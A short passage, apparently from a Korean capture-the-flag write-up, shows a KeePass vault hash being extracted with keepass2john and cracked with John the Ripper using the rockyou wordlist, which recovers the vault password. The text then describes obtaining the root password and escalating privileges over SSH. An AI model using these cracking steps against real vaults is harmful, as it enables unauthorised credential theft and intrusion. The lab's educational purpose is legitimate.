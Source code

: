 ```sh
┌──(kali㉿kali)-[~/drugstore]
└─$ keepass2john architect-vault.kdbx > architect-vault.hash

┌──(kali㉿kali)-[~/drugstore]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt architect-vault.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 10000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
london           (architect-vault)      # keepass 패스워드
1g 0:00:00:00 DONE (2024-08-27 06:18) 1.639g/s 786.8p/s 786.8c/s 786.8C/s linda..marie
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

이 후, 알아낸 keepass 패스워드를 통해 `architect-vault.kdbx`파일에 접근 성공했으며 root 패스워드를 알아낼 수 있었고, ssh를 통하여 권한 상승을 성공적으로 수행 하였다.

![alt text](/image/image-13.png)
